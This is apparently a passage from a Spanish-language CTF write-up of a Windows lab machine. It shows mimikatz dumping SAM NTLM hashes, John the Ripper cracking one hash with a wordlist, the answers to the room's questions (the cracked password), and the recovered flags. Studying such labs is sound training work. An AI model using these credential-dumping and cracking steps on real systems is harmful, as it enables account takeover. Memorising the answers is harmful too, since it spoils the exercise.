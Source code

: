 ```
C:\>mimikatz.exe

mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d

mimikatz # 
```

Una vez dumpeados los hashes NTLM, vemos que está el de Administrator y el de Jon, nos copiaremos el hash de Jon y lo crackearemos utilizando la herramienta John, para eso copiaremos el hash y lo guardaremos en un archivo en nuestra máquina.
```
echo "ffb43f0de35be4d9917ac0cc8ad57f8d" > hash
john -w=/usr/share/wordlists/rockyou.txt hash --format=nt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)
1g 0:00:00:00 DONE (2022-11-24 19:49) 1.219g/s 12439Kp/s 12439Kc/s 12439KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

### Preguntas
1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? - ```Jon```
2. Copy this password hash to a file and research how to crack it. What is the cracked password? - ```alqfna22```

## Tarea 5(Find Flags)

Para encontrar las flags ejecutaremos ```dir /s /b flag*```
```
C:\>dir /s /b flag*
C:\flag1.txt
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk
C:\Users\Jon\Documents\flag3.txt
C:\Windows\System32\config\flag2.txt

C:\>type C:\flag1.txt
flag{access_the_machine}
C:\>type C:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
C:\>type C:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```
